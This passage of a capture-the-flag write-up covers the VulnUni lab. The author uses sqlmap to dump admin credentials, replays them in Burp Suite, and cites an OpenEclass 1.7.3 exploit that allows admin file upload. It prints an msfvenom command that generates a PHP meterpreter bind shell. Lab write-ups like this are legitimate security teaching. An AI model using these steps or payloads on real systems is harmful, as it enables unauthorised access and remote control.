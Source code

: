     </div>
</div>
<div class="caption">
    SQLmap being used to dump database tables
</div>     

Now that I obtained admin credentials from sqlmap, I logged into the application as the administrator. Once again, the http request was being resolved to vulnuni.local. To actually log into the application, I edited the raw request in burp-suite as shown below. After hitting send, I selected the Render” tab on the response, then right clicked and selected to open up in browser.


<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2020-06-02-vulnuni-ctf-writeup/vulnuni7.png">
    </div>
</div>
<div class="caption">
    A burpsuite repeater session using the dumped credentials to log into the application as admin
</div>  

Next, I navigated over to the other exploit identified earlier in the exploit-db. This exploit titled “GUnet OpenEclass 1.7.3 E-learning platform – ‘month’ SQL Injection” enables authenticated admins to upload reverse php shell files. To exploit this vulnerability, I used msfvenom to create a php meterpreter bind shell on port 4448.  

```bash
root@kali$ msfvenom -p php/meterpreter/bind_tcp LHOST=192.168.8.130 LPORT=4448 R > bind-meterpreter.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1338 bytes
``` 
